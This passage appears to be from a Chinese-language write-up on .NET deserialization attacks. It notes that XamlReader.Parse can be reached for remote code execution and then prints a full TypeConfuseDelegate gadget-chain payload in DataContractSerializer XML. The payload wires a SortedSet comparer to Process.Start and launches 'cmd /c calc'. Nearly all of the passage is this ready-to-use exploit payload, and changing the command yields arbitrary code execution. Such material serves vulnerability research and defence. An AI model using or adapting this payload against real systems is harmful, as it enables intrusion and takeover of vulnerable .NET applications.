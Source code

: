 ```csharp
        }
    }
    return null;
}
```

在`toType.GetMethod("Parse", bindingAttr, null, new Type[] { typeof(string) }, null)`可以XamlReader.Parse()触发rce。

## TypeConfuseDelegate

```xml
<ArrayOfstring z:Id="1" z:Type="System.Collections.Generic.SortedSet`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]" z:Assembly="System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"><Count z:Id="2" z:Type="System.Int32" z:Assembly="0" xmlns="">2</Count><Comparer z:Id="3" z:Type="System.Collections.Generic.ComparisonComparer`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]" z:Assembly="0" xmlns=""><_comparison z:Id="4" z:FactoryType="a:DelegateSerializationHolder" z:Type="System.DelegateSerializationHolder" z:Assembly="0" xmlns="http://schemas.datacontract.org/2004/07/System.Collections.Generic" xmlns:a="http://schemas.datacontract.org/2004/07/System"><Delegate z:Id="5" z:Type="System.DelegateSerializationHolder+DelegateEntry" z:Assembly="0" xmlns=""><a:assembly z:Id="6">mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</a:assembly><a:delegateEntry z:Id="7"><a:assembly z:Ref="6" i:nil="true"/><a:delegateEntry i:nil="true"/><a:methodName z:Id="8">Compare</a:methodName><a:target i:nil="true"/><a:targetTypeAssembly z:Ref="6" i:nil="true"/><a:targetTypeName z:Id="9">System.String</a:targetTypeName><a:type z:Id="10">System.Comparison`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]</a:type></a:delegateEntry><a:methodName z:Id="11">Start</a:methodName><a:target i:nil="true"/><a:targetTypeAssembly z:Id="12">System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</a:targetTypeAssembly><a:targetTypeName z:Id="13">System.Diagnostics.Process</a:targetTypeName><a:type z:Id="14">System.Func`3[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]</a:type></Delegate><method0 z:Id="15" z:FactoryType="b:MemberInfoSerializationHolder" z:Type="System.Reflection.MemberInfoSerializationHolder" z:Assembly="0" xmlns="" xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Name z:Ref="11" i:nil="true"/><AssemblyName z:Ref="12" i:nil="true"/><ClassName z:Ref="13" i:nil="true"/><Signature z:Id="16" z:Type="System.String" z:Assembly="0">System.Diagnostics.Process Start(System.String, System.String)</Signature><Signature2 z:Id="17" z:Type="System.String" z:Assembly="0">System.Diagnostics.Process Start(System.String, System.String)</Signature2><MemberType z:Id="18" z:Type="System.Int32" z:Assembly="0">8</MemberType><GenericArguments i:nil="true"/></method0><method1 z:Id="19" z:FactoryType="b:MemberInfoSerializationHolder" z:Type="System.Reflection.MemberInfoSerializationHolder" z:Assembly="0" xmlns="" xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Name z:Ref="8" i:nil="true"/><AssemblyName z:Ref="6" i:nil="true"/><ClassName z:Ref="9" i:nil="true"/><Signature z:Id="20" z:Type="System.String" z:Assembly="0">Int32 Compare(System.String, System.String)</Signature><Signature2 z:Id="21" z:Type="System.String" z:Assembly="0">System.Int32 Compare(System.String, System.String)</Signature2><MemberType z:Id="22" z:Type="System.Int32" z:Assembly="0">8</MemberType><GenericArguments i:nil="true"/></method1></_comparison></Comparer><Version z:Id="23" z:Type="System.Int32" z:Assembly="0" xmlns="">2</Version><Items z:Id="24" z:Type="System.String[]" z:Assembly="0" z:Size="2" xmlns=""><string z:Id="25" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">/c calc</string><string z:Id="26" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">cmd</string></Items></ArrayOfstring>
```
